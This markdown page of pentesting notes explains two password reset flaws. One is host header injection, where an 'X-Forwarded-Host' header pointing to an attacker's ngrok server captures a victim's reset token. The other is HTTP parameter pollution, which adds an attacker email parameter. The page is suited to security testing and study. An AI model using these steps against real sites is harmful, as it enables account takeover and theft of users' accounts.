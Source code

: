 # Password Reset Flaws
### Method 1 : Host Header 
1.  Go to [https://redacted.com/users/forgot\_password](https://redacted.com/users/forgot_password) and type username to get forget password link.
2.  Capture this request in Burpsuite and add <b>X-Forwarded-Host: bing.com</b>

	![](assets/pswd1.png)
3. Then forward the request and check your email. You got an email of Password reset with token. Which looks Like ([https://bing.com/users/reset\_password/tqo4Xciu806oiR1FjX8RtIUc1DTcm1B5Kqb53j1fLEkzMW2GPgCpuEODDStpRaES](https://redacted.com/users/reset_password/tqo4Xciu806oiR1FjX8RtIUc1DTcm1B5Kqb53j1fLEkzMW2GPgCpuEODDStpRaES)).
4. Here token is Leak to the bing.com. So Now to confirm this token is True or not. Put [https://redacted.com](https://redacted.com/) instead of [https://bing.com](https://hackerone.com/redirect?signature=6b4c48def3047486a33dd3013d8956a4d8263bc8&url=https%3A%2F%2Fbing.com) and open in browser.

5. So the password reset link is valid and i can able to reset the password.

### Exploitation
1. Create a server via ngrok and consider it as an Attacker's server.
2.  Then Attacker go to the page which is [https://redacted.com/users/forgot\_password](https://redacted.com/users/forgot_password) and type **Victim** username and capture the request in Burp suite.
3.  In captured request Attacker add “**X-Forwarded-Host: ngrok.io**” ngrok.io=ngrok server address.
	![](assets/paswd2.png)
4. . So after that Victim can get the Password reset URL and the domain of that reset link is ngrok server address or domain. (For the exploitation It need victim interaction or one time click only)
5.  Whenever victim is click on that link. Attacker can get the full token in his server.
6.   When attacker can get the password reset token he will only change the ngrok domain name to Main Domain to Takeover the Account.
---

### Method 2 : HTTP Parameter Pollution
1.  Go to [https://anywebsite.com/forgot/](https://dash.readme.io/forgot/)
2.  Start Burp Proxy and start intercepting requests
3.  Enter the email address of the victim on the website and click submit
4.  intercept request on burp and add another email parameter with the attacker’s email address and forward the request
5.  Now you will receive the email from readme regarding account password reset.

---

